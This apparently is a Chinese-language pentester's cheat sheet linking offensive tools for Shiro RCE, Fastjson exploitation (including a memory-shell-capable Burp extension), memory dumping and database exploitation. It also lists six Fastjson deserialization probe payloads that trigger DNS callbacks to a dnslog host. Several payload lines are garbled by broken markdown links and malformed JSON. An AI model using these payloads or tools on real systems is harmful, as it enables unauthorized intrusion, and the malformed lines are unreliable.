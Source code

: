 ## 内存分析
https://github.com/whwlsfb/JDumpSpider


## RCE
### shiro
https://github.com/SummerSec/ShiroAttack2

## Shell
## Burp 拓展
### Fastjson_EXP
[amaz1ngday/fastjson-exp: fastjson利用，支持tomcat、spring回显，哥斯拉内存马；回显利用链为dhcp、ibatis、c3p0。 (github.com)](https://github.com/amaz1ngday/fastjson-exp)

-  `{"@type":"java.net.Inet4Address","val":"dnslog"}`
-  `{"@type":"java.net.Inet6Address","val":"dnslog"}`
-  `{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}`
-  `{{"@type":"java.net.URL","val":"[http://dnslog"}:0](http://dnslog"}`
-  `{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"[http://dnslog"}}""}`
-  `Set[{"@type":"java.net.URL","val":"http://dnslog"}]`

## DATABASE
### MDUT
[SafeGroceryStore/MDUT: MDUT - Multiple Database Utilization Tools (github.com)](https://github.com/SafeGroceryStore/MDUT)